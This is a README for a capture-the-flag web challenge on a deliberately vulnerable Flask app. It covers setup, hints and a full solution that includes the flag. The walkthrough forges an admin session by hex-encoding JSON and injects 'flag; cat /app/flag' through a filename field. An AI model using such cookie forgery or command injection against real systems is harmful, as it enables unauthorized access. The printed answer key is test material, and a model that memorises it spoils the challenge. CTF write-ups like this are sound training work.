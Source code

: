# ctf-challenge
CTF Challenge: The Hidden Payload
Challenge Description

"In the depths of the system lies a hidden payload, waiting to be uncovered. Many have tried to find it, but few have succeeded. The key to your success lies in the shadows—look beyond the obvious, for the hidden payload is concealed in plain sight. Only those who can see the unseen and hear the silent whispers shall prevail."
Challenge Overview

This challenge is a web exploitation task that combines session manipulation and command injection. Players must bypass authentication by forging a session cookie and then exploit a command injection vulnerability to retrieve the flag.
Challenge Details

    Category: Web Exploitation

    Difficulty: Easy/Medium

    Flag Format: DEFENSYS{...}

    Author: [Your Name]

Setup Instructions
Prerequisites

    Docker (optional, for containerization)

    Python 3.x

    Flask (pip install flask)

Steps to Run the Challenge

    Clone the Repository:
    bash
    Copy

    git clone https://github.com/your-username/ctf-hidden-payload.git
    cd ctf-hidden-payload

    Build and Run the Docker Container (optional):
    bash
    Copy

    docker build -t hidden-payload .
    docker run -p 5000:5000 hidden-payload

    Run the Flask Application Locally:
    bash
    Copy

    python app.py

    Access the Challenge:

        Open your browser and navigate to http://127.0.0.1:5000.

Challenge Walkthrough
Step 1: Log In

    Use the credentials admin:admin to log in.

    After logging in, you’ll see the message: "Welcome, user. Your session has been encoded for security."

Step 2: Inspect the Session Cookie

    Use browser developer tools to inspect the session cookie.

    The session cookie is a hex-encoded string of the session data (e.g., {"role": "user"} → 7b22726f6c65223a202275736572227d).

Step 3: Decode the Session Cookie

    Decode the hex string to reveal the session data.
    python
    Copy

    import binascii
    import json

    cookie = "7b22726f6c65223a202275736572227d"
    session_data = json.loads(binascii.unhexlify(cookie).decode())
    print(session_data)  # Output: {'role': 'user'}

Step 4: Forge a Session Cookie

    Encode {"role": "admin"} as a hex string to generate a valid session cookie.
    python
    Copy

    import binascii
    import json

    session_data = {"role": "admin"}
    session_cookie = binascii.hexlify(json.dumps(session_data).encode()).decode()
    print(session_cookie)  # Output: 7b22726f6c65223a202261646d696e227d

    Replace the original session cookie with the forged one using browser developer tools.

Step 5: Access the Admin Page

    With the forged session cookie, navigate to the gallery page.

Step 6: Exploit Command Injection

    Use the file upload feature to inject a command and retrieve the flag:
    Copy

    flag; cat /app/flag

Step 7: Retrieve the Flag

    The server will return the flag:
    Copy

    Contents of flag; cat /app/flag:
    DEFENSYS{c00k13_m4n1pul4t10n_4nd_c0mm4nd_1nj3ct10n}

Hints

    Hint 1: "The session holds the key. What does it represent? Think in JSON."

    Hint 2: "The session cookie is hex-encoded. Can you decode it?"

    Hint 3: "Sometimes, the answer lies in what you don’t see. Listen to the silent whispers."

    Hint 4: "The treasure is locked away, but the system’s tools can be turned against it."

Solution
Step 1: Log In

    Log in with admin:admin.

Step 2: Inspect the Session Cookie

    The session cookie is a hex-encoded string of {"role": "user"}.

Step 3: Decode the Session Cookie

    Decode the hex string to reveal the session data.

Step 4: Forge a Session Cookie

    Encode {"role": "admin"} as a hex string.

Step 5: Replace the Session Cookie

    Use browser developer tools to replace the original session cookie with the forged one.

Step 6: Access the Admin Page

    Navigate to the gallery page as an admin.

Step 7: Exploit Command Injection

    Enter the payload flag; cat /app/flag in the filename field.

Step 8: Retrieve the Flag

    The server returns the flag: DEFENSYS{c00k13_m4n1pul4t10n_4nd_c0mm4nd_1nj3ct10n}.

Files in the Repository

    app.py: The Flask application.

    templates/login.html: The login page template.

    templates/gallery.html: The gallery page template.

    Dockerfile: Docker configuration for containerization.

    requirements.txt: Python dependencies.

Author

    Name: [Your Name]

    Contact: [Your Email]

    GitHub: [Your GitHub Profile]

License

This project is licensed under the MIT License. See the LICENSE file for details.
Acknowledgments

    Thanks to [CTF Platform/Community Name] for hosting this challenge.

    Inspired by real-world web vulnerabilities.
